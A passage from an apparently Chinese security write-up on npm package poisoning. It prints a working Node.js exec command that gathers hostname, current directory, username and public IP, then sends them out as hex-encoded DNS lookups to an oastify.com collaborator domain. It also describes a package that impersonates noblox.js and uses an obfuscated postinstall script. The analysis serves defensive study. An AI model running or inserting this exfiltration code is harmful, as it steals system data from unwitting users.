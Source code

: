 [![](assets/1710900786-69833014dc2e96310b8481514c72b74f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229155036-39a977fc-d6d7-1.png)

```plain
const { exec } = require("child_process");
exec("a=$(hostname;pwd;whoami;echo 'identity-auth';curl https://ifconfig.me;) && echo $a | xxd -p | head | while read ut;do nslookup $ut.m4rwxmtkqz5wk2d1gfpk7fcqhhn8byzn.oastify.com;done" , (error, data, getter) => {
  if(error){
    console.log("error",error.message);
    return;
  }
  if(getter){
    console.log(data);
    return;
  }
  console.log(data);

});
```

模拟投毒者生成包含系统敏感数据的 DNS 地址，攻击者通过分析 DNS 服务器查询日志即可将受害者系统敏感数据依次提取后进行解码还原。

[![](assets/1710900786-523d46667ebdfd43fc76d3d942a9f7f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229155044-3e48b4f8-d6d7-1.png)

恶意代码混淆

为了躲避静态代码分析检测，攻击者会对投毒包中的恶意代码进行变形混淆。例如 npm 仓库的投毒包 noblox.js-proxy-server，该投毒包伪装成 github 项目 noblox/noblox.js（[https://github.com/noblox/noblox.js.git）进行投毒攻击，主要通过在](https://github.com/noblox/noblox.js.git%EF%BC%89%E8%BF%9B%E8%A1%8C%E6%8A%95%E6%AF%92%E6%94%BB%E5%87%BB%EF%BC%8C%E4%B8%BB%E8%A6%81%E9%80%9A%E8%BF%87%E5%9C%A8) package.json 中定义 postinstall 指令，postinstall 指令在安装投毒包时将自动触发执行包含混淆代码的 postinstall.js 恶意文件。

